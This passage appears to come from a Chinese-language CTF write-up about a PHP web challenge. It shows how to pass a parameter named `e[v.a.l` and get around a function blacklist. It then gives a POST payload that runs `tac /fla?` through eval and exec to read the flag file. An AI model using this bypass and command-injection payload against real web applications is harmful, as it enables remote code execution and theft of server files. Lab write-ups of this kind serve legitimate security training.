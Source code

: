 因此此处传入的变量名是 `e[v.a.l`;

之后是对 RCE 的 bypass, 这里有很多函数没 ban, 比如反引号, `tac`, `more`, `tail` 等等, payload:

```
POST
password=apofox&e[v.a.l=echo(exec(%22tac%20/fla?%22));
```

![62-2.png](62-2.png)

爆出 flag;

